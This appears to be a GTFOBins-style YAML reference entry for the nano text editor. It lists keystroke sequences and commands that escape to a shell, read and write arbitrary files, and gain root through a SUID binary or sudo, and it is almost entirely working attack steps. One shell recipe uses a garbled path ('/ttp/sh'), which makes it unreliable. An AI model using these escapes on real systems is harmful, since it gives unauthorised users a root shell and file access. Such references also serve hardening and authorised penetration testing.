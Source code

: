 ```yaml
---
functions:
  shell:
    - code: |
        nano
        ^R^X
        reset; sh 1>&0 2>&0
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        nano -s /ttp/sh
        /ttp/sh
        ^T
  file-write:
    - code: |
        nano file_to_write
        DATA
        ^O
  file-read:
    - code: nano file_to_read
  suid:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        ./nano
        ^R^X
        reset; sh 1>&0 2>&0
  sudo:
    - code: |
        sudo nano
        ^R^X
        reset; sh 1>&0 2>&0
---
```

